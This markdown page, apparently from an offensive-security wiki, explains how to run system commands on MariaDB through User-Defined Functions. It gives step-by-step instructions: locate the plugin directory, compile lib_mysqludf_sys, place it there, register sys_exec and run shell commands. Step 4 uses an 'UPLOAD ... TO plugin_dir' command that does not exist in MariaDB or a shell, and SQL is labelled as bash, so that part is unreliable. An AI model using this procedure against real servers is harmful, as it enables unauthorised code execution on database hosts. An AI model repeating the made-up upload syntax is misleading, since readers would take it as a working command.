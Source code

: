 ```yaml
---
title: MariaDB Command Execution via UDF Explained
description: Learn how to execute system commands on MariaDB through User-Defined
  Functions (UDFs) with a detailed guide.
keywords:
- MariaDB
- User-Defined Functions
- UDF
- command execution
- lib_mysqludf_sys
- DLL injection
- plugin directory
- security risks
---
```


# COMMAND - UDF

## Context

This article explores how to execute system commands on MariaDB databases by leveraging User-Defined Functions (UDFs). It assumes you have a basic understanding of UDFs, shared objects, the plugin directory in MariaDB, and general concepts of MariaDB command execution.

## Theory

### User-Defined Functions (UDFs) in MariaDB

User-Defined Functions (UDFs) allow developers to add custom functions to MariaDB. They extend the capabilities of MariaDB beyond the built-in SQL functions. However, if misused or improperly secured, UDFs can be exploited to execute system commands, posing significant security risks.

### lib_mysqludf_sys Library

The `lib_mysqludf_sys` library provides the ability to execute system commands through UDFs. This library can be exploited to run arbitrary system commands on the server hosting the MariaDB instance, offering a potent vector for attackers if they can upload and use this library.

### DLL Injection in MariaDB

DLL Injection, in the context of MariaDB, involves injecting a shared object to extend the functionality of the database. An attacker could upload a malicious shared object and register it as a UDF. This process involves:

- Compiling a malicious shared object.
- Placing it in the MariaDB plugin directory.
- Creating a UDF using this shared object.
- Executing commands via the UDF.

### Plugin Directory in MariaDB

The plugin directory in MariaDB is where the database looks for shared objects and plugins. It operates under the assumption that all files in this directory are trusted. By default, MariaDB loads plugins from this directory, meaning any shared object placed here can be executed by the database, making it a critical target for attackers.

## Practice

### Executing system commands via UDF in MariaDB

To execute system commands in MariaDB using UDFs, follow the steps below:

1. **Identify the plugin directory:**
    
    ```bash
    SHOW VARIABLES LIKE 'plugin_dir';
    ```
    
    Knowing where to place the shared object is essential for it to be loaded by MariaDB.

2. **Determine the operating system:**

    ```bash
    SELECT @@version_compile_os;
    ```
    
    This step ensures that the shared object is compiled for the correct operating system.

3. **Compile the shared object:**

    ```bash
    gcc -shared -o lib_mysqludf_sys.so -fPIC lib_mysqludf_sys.c
    ```
    
    Use a C compiler to create the shared object file from the `lib_mysqludf_sys` source code. Ensure the compilation matches the MariaDB server's architecture and OS.

4. **Upload the compiled shared object to the plugin directory:**

    ```bash
    UPLOAD lib_mysqludf_sys.so TO plugin_dir
    ```
    
    Place the compiled shared object into the plugin directory. You might need specific privileges to perform this action.

5. **Create the UDF:**

    ```bash
    CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
    ```
    
    Register the new UDF `sys_exec` using the uploaded shared object.

6. **Execute a system command using the UDF:**

    ```bash
    SELECT sys_exec('id');
    ```
    
    This command executes the Unix `id` command via the UDF, demonstrating the ability to run arbitrary system commands.

Using this method, you can leverage MariaDB vulnerabilities to execute system-level commands, providing substantial control over the host system.

## Tools

- **gcc**: Used to compile the shared object for UDF.
- **MariaDB client**: Required for executing SQL commands against the MariaDB server.